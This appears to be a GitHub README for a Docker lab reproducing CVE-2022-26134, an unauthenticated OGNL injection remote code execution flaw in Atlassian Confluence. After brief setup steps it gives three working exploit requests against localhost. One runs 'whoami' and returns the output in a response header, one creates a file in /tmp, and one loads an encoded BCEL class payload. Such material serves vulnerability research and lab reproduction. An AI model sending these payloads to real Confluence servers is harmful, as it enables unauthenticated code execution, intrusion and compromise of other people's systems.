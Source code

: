 # Atlassian Confluence Pre-Auth Remote Code Execution Vulnerability(CVE-2022-26134)

## Introduction

Atlassian has been made aware of current active exploitation of a critical severity unauthenticated remote code execution vulnerability in Confluence Data Center and Server. The `OGNL` injection vulnerability allows an unauthenticated user to execute arbitrary code on a Confluence Server or Data Center instance. 

## Usage

Run

```bash
docker-compose up
```

Follow the installation guild and setup the database with

```
user: postgres
passwd: postgres
database: confluence
```

Sending the request

```http
GET /%24%7B(Class.forName(%22jav%22+%22ax.script.ScriptEngineManager%22).newInstance().getEngineByName(%22js%22).eval(%22var%20p%20%3D%20org.apache.commons.io.IOUtils.toString(java.lang.Runtime.getRuntime().exec('whoami').getInputStream(),'utf-8')%3B%20com.opensymphony.webwork.ServletActionContext.getResponse().setHeader('X-Cmd-Response',p)%3B%22))%7D/ HTTP/1.1
Host: localhost:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
```

![](images/screenshot.jpg)

or a brief poc but witout command execution reply in response.

```http
GET /%24%7B(Class.forName(%22java%22+%22.lang.Runtime%22).getMethod(%22getRuntime%22,%20null).invoke(null,%20null).exec(%22touch%20/tmp/success%22))%7D/ HTTP/1.1
Host: localhost:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
```

or with bcel `ClassLoader`

```http
GET /%24%7B(Class.forName(%22org.ap%22+%22ache.bcel.util.ClassLoader%22).newInstance().loadClass(%22$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQMO$h1$Q$7dN$96$ecv1M$I$J$l$z$z$l$fd$m$c9$a1$x$qn$m$$$VHU$b7$Nj$Q$9c$j$c7$K$a6$c9$3a$dax$x$feQ$cf$5c$d2$aa$H$7e$A$3f$K1$5eR$KmW$da$Z$cf$bc$997$cf$e3$eb$9b_W$Av$d0$K$f1$E$cb$nV$f0$y$c0s$e7W$5d$e6$85$8f$97$nJX$f3$b1$eec$83$a1$b4$a7$Tm$f7$Z$8a$8d$e6$J$83$f7$de$f4$UC9$d6$89$fa$9c$N$bb$w$3d$W$dd$Be$aa$b1$91bp$oR$ed$e2i$d2$b3gz$cc0$lK3$8cl$da$XIODGF$ee2$E$7br0efTY$8f$cf$c57$Ri$T$7dh$l$5cH5$b2$da$qT6$d7$b1B$7e$fd$qF9$p$89c$I$3b$sK$a5$3a$d4nB$40l$ef$5c$xG$88Y$l$9b$i$af$f0$9aa$c1$9aL$9e$adGv8$8a$c6$99$94j$3c$de$e6x$83$b7$i$5bh$Q$fe$9fq$iM$cc$d2$dd$fe$S$cbP$c9$8b$H$o$e9G$ed$ee$b9$92$96$ae$f4$t$f5$rK$ac$k$92$96$b0$af$ec$7dPo4$e3$7fj$e8B$9e$baPD$b9$d5x$80vl$aa$93$fe$ee$c3$86$a3$d48$cdnQ$d6$dc$e1$M$b5G$9c$d3$$$S$3c$a2$83$cd$Xu$9c$K$a9$b0$81$80$9e$d2$7d$F0$b7$X$b2$9c$a2$88$3c$p$3f$d3$fa$Bv$99$c3sdKwI$3c$r$cb$a7$e72$w$e4$D$cc$df7$f7r2$a0$fe$T$85jq$Co$82$99$d3$ef$I$3e$b6$s$f0$_s$88S$5b$J$c5$9ct$91H$i$B$t$822$a9$a9$90$8e$gE$bf$87T$e0$a1$8a$F$8aj$f4$fb$u$b4$7d$d4$3d$C$Ws$5dK$b7M$fe$b8$8b$a9$C$A$A%22).newInstance())%7D/ HTTP/1.1
Host: localhost:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
```

it will create `/tmp/success1` file.

![](images/success.jpg)

## Reference

1. https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html
2. https://jira.atlassian.com/browse/CONFSERVER-79016